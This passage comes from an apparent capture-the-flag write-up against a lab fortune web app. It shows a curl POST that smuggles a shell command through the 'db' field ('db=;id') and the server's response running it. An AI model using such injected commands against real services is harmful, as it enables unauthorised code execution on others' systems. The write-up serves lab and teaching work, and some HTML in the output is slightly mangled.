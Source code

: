 
It works, I get a startrek quote (since the quotes are picked at random,
it may take a few submits to get one from startrek). I could also play
with the weighting to pretty much guarantee a certain type of quote:

![](/img/1564382626812.png)

### Command Injection

Given that I can control the command line, I should look for command
injection. It works:



    root@kali# curl -s -X POST http://10.10.10.127/select -d "db=;id"
    <!DOCTYPE.md>
    .md>
    <head>
    <title>Your fortune</title>
    <meta name='viewport' content='width=device-width, initial-scale=1'>
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    </head>
    <body>
    <h2>Your fortune is:</h2>
    <p><pre>

    For every complex problem, there is a solution that is simple, neat,
    and wrong.
                    -- H. L. Mencken
    uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)

